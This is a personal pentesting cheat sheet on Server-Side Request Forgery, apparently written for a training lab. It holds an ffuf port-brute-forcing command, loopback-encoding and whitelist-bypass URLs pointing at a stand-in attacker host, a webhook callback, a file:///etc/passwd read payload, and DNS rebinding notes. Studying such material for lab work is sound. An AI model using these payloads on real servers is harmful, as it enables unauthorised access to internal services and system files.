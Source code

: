Server-side Request Forgery, triggering a request made from the server.
- [ ] URL in parameters
- [ ] Check for open redirection

(Ffuf) Brute-forcing ports
```bash
ffuf -w ports.txt:FUZZ -u http://10.129.15.17/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2025-01-01" -fr 'Something went wrong!'
```
Detecting SSRF
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet
```bash
https://webhook.site/401e2e49-6a1c-4e43-a888-f11830e699d4 # webhook
http://127.0.0.1/
http://localhost/
http://2130706433/ # represents 127.0.0.1
http://017700000001/
http://[::1]/
http://127.1/
# Whitelist bypass (if http://attacker.htb must be present)
http://attacker.htb/
http://academy.htb.attacker.htb/
http://academy.htb@attacker.htb/
http://attacker.htb/callback?a=http://academy.htb
http://attacker.htb/callback#http://academy.htb
```
Exploiting SSRF
```bash
file:///etc/passwd # php
gopher
```
(Gopherus) Constructing gopher
```bash
```

### DNS Rebinding Bypass SSRF Protections
https://lock.cmpxchg8b.com/rebinder.html
- Set DNS through Burp, host name similar to victim.
- Rebinds to 127.0.0.1 addresses to do SSRF through DNS Rebinding.
